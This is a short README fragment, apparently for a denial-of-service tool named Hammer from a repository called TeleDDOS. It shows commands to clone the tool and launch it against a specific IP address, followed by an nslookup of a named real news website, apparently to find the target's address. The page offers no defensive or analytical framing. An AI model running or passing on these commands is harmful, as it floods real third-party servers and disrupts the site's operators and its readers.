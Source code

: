 1. How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo) 

```

cd ~
git clone https://github.com/KingArmin/TeleDDOS
cd TeleDDOS

python3 hammer.py -s 52.28.119.169 

nslookup www.radioalghad.com

```
